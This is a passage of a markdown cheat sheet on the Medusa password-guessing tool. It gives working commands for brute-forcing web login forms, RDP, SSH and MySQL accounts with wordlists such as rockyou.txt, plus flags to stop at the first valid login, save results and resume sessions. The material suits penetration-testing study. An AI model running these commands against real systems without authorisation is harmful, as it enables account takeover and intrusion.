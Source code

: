 ### ✅ 4. HTTP Form Login Brute Force

This is for login forms like `/login.php`

```bash
medusa -h example.com -u admin -P passwords.txt -M http-form \
 -m FORM:"/login.php":"username=^USER^&password=^PASS^":"Login failed"
```

📝 Breakdown:

* `^USER^` and `^PASS^` are placeholders
* It checks for `"Login failed"` string to detect failed login

---

### ✅ 5. RDP (Remote Desktop Protocol) Brute Force

```bash
medusa -h 192.168.1.100 -U users.txt -P rockyou.txt -M rdp
```

---

### ✅ 6. Stop After First Success

```bash
medusa -h 192.168.1.10 -u admin -P passwords.txt -M ssh -f
```

📝 `-f` tells Medusa to **stop after first valid login** is found.

---

### ✅ 7. Brute Force MySQL Database

```bash
medusa -h 192.168.1.15 -u root -P /usr/share/wordlists/sql.txt -M mysql
```

---

## 📁 Output File

To save output to a file:

```bash
medusa -h 192.168.1.10 -u root -P passwords.txt -M ssh -O output.txt
```

---

## 🔄 Resume Session

```bash
medusa -x
```
